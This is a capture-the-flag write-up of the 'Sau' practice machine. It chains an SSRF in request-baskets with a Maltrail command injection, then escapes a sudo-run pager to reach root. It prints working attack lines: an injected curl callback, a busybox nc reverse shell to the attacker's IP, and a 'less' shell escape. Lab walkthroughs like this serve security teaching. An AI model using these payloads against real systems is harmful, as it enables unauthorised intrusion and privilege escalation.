










## Enumeration
Initial nmap:
```
Nmap scan report for 10.10.11.224
Host is up (0.036s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 05 Jan 2024 17:53:45 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 05 Jan 2024 17:53:19 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 05 Jan 2024 17:53:19 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=1/5%Time=6598420F%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html
SF:;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2005\x20Jan\x
SF:202024\x2017:53:19\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"
SF:/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2
SF:0200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2005\x20Jan\x
SF:202024\x2017:53:19\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plai
SF:n;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reques
SF:t")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\
SF:n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x2
SF:0charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r
SF:(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Optio
SF:ns:\x20nosniff\r\nDate:\x20Fri,\x2005\x20Jan\x202024\x2017:53:45\x20GMT
SF:\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20n
SF:ame\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\
SF:$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
SF:20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.13 seconds
```
Ports 80 and 8338 are filtered, which is rather unusual. They could just be closed, or perhaps a firewall is placed and prohibiting interaction with these ports. We can see an unusual open port 55555. Nmap enumeration output is rather confusing, but we can see that this has some http capabilities. 
### Enumerating web service on port 55555
Viewing in firefox:



We can create baskets, which appear to be url folders. Upon clicking the create button, we receive a token:



When we visit our empty basket, we see instructions on how to use:



When we visit the link, we receive an empty response. Now on our basket page, however, we can see information on the request done:



On the main page, we can see that this process is using the opensource project [request-baskets](https://github.com/darklynx/request-baskets):


### Testing SSRF disclosed for request-baskets

The version is also detailed as 1.2.1, however the most recent release is v1.2.3. We can explore github release notes to see what was changed between versions, but unfortunately there is not mention of security flaws/vulnerabilities. However, using google to search version 1.2.1 provides us with [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163), an SSRF type vulnerability that can be used to access internal/restricted pages. 
There are two ideas I have for using this vulnerability. In initial nmap scanning, ports 80 and 8338 were displayed as filtered, perhaps this is something that cannot be accessed externally but can be reached through an SSRF approach. Alternatively, we might access an admin page requiring accessibility we normally don't have. When reaching /web/baskets, it expects us to supply a master token:



Perhaps with SSRF, a master token would be supplied as a cookie and we can view? It is a possibility worth trying. 

[This article](https://notes.sjtu.edu.cn/s/MUUhEymt7#) covers the exploit details from an API request perspective, but it is not necessary with our ability to handle the GUI. In my established basket, I can edit this information from the settings cog:



Just as the article states, we can set the proxy response and expand forward path, and set the forward url to localhost:



Now when we visit our box, we are forwarded to a the new website on port 80!



It looks horrendously broken for now, but the important part is that we are able to access the internal web service despite being behind a firewall. 
## Foothold
### Using SSRF to enumerate the firewalled web service

From the webpage footer, we can understand that this service is using Maltrail v0.53:



A quick google search shows that this service is [vulnerable to an OS command injection vulnerability](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). The provided article lists a very simple payload that we might use:
```
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```
Note that the supplied port is 8338, and we did see this port filtered during our nmap scan. When I check with the SSRF method, the same landing page appears as port 80. It seems that both ports are being used to listen to the same service, so we can use either one.

To use this exploit, the first thing we must do is point our SSRF forwarding address at the /login page:



While the request can be sent via firefox, extra steps must be done to transform the request to a POST, and supplying the data. It is easier to do in curl, just as the POC suggests. As for the payload, we shouldn't expect to see the response if we check with `id` or `whoami`, as we are not provided with stdout. In order to confirm the RCE is working, we need to send a command that will reach back to our system. My preferred method is to check with a `curl` or `wget` request. First, we must set up a listener, either nc or python:
```
┌──(kali㉿kali)-[~]
└─$ nc -lp 80
```

Next, we send the request to our bucket, with the injected curl command:
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.224:55555/3gu14de -d 'username=;`curl 10.10.14.155`'
```
After a moment of waiting, we can see a request was sent to our listener!
```
┌──(kali㉿kali)-[~]
└─$ nc -lp 80
GET / HTTP/1.1
Host: 10.10.14.155
User-Agent: curl/7.68.0
Accept: */*
```
The user-agent is curl as expected, and very importantly the host is `10.10.14.155`, our victim's IP. 
### Chain exploiting request-basket's SSRF and Maltrail's Command Injection for RCE

Now to generate a reverse shell. For this, I used the busybox nc payload from [revshells](https://www.revshells.com/):

```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.224:55555/3gu14de -d 'username=;`busybox nc 10.10.14.155 8888 -e bash`'
```
Meanwhile on my nc listener:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.155] from (UNKNOWN) [10.10.11.224] 34052
id                                                                                                                  
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

## Privilege Escalation
### Stabilizing reverse shell
Currently, the reverse shell has limited capabilities. We can improve the stability with `script`:
```
script -qc /bin/bash /dev/null
```
Afterwards, we must reconfigure stty from our kali terminal. Using ctrl+Z will send the reverse shell to background, were we can configure stty.
```
puma@sau:/opt/maltrail$ ^Z                                                                                          
zsh: suspended  nc -nvlp 8888                                                                                       
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                               
[1]  + continued  nc -nvlp 8888

puma@sau:/opt/maltrail$
```
`fg` returns the reverse shell to foreground, and now we have a stable, interactive session on the victim host.
### Checking for additional users on the system
We can see that we are user `puma`, and notably user 1001. Since user creations typically start with number 1000, there is likely another created user on the system. We can figure this out by checking /etc/passwd:
```
puma@sau:/opt/maltrail$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
puma:x:1001:1001::/home/puma:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
Unexpectedly, there is no user with id number 1000. Considering this is an easy difficulty box, the likely conclusion is that lateral movement won't be necessary for completion. 
### Checking sudo privileges
Enumerating our sudo authorization, we can see our user `puma` has some command allowances without requiring a password:
```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This is very good for us, considering we don't know puma's password currently. 
### Abusing priveleged less session to spawn a root shell

Trying out the command:
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2024-01-05 16:49:06 UTC; 2h 0min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 62 (limit: 4662)
     Memory: 80.7M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─ 986 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─ 989 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─ 995 sh
             ├─ 997 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─ 998 /bin/sh
             ├─1047 sudo /usr/bin/systemctl status trail.service
             ├─1049 /usr/bin/systemctl status trail.service
             ├─1050 pager
             ├─1052 sh -c /bin/bash
             ├─1053 /bin/bash
             ├─1067 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1068 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1071 sh
lines 1-23
```
We immediately get this `terminal not fully functional` warning, which is something I instantly recognize. This is common for interactive file viewers such as `more` or `less`, when viewed from a reverse shell as we are. These commands are particularly dangerous to run with elevated privileges, as we can often use !bash to open an interactive shell session as the elevated user.
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
<...SNIP...>
             ├─1067 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1068 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1071 sh
lines 1-23!bbaasshh!bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
```
There is some disorienting echoing going on, but when I input the `!bash` command and hit enter, I am dropped into a root session! With this, we have fully compromised the system.
## Alternative information gathering
### Finding the usage of less through help menu
We can also figure out very easily that the sudo command we are using is indeed utilizing `less`. By pressing `h` for help, we are given the summary of less commands:
```
<...SNIP...>
             ├─1068 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1071 sh
lines 1-23...skipping...

                   SUMMARY OF LESS COMMANDS

      Commands marked with * may be preceded by a number, N.
      Notes in parentheses indicate the behavior if N is given.
      A key preceded by a caret indicates the Ctrl key; thus ^K is ctrl-K.

  h  H                 Display this help.
  q  :q  Q  :Q  ZZ     Exit.
 ---------------------------------------------------------------------------

                           MOVING

  e  ^E  j  ^N  CR  *  Forward  one line   (or N lines).
  y  ^Y  k  ^K  ^P  *  Backward one line   (or N lines).
  f  ^F  ^V  SPACE  *  Forward  one window (or N lines).
  b  ^B  ESC-v      *  Backward one window (or N lines).
  z                 *  Forward  one window (and set window to N).
  w                 *  Backward one window (and set window to N).
  ESC-SPACE         *  Forward  one window, but don't stop at end-of-file.
  d  ^D             *  Forward  one half-window (and set half-window to N).
  u  ^U             *  Backward one half-window (and set half-window to N).
  ESC-)  RightArrow *  Right one half screen width (or N positions).
HELP -- Press RETURN for more, or q when done
```
### Using GTFOBins to discover how to abuse less or systemctl
If we happen to be unfamiliar with this form of `less` escape, we can refer to [gtfobins](https://gtfobins.github.io/gtfobins/less/). Additionally if we had trouble recognizing less, [gtfobins also mentions it on systemctl's page](https://gtfobins.github.io/gtfobins/systemctl/#sudo)
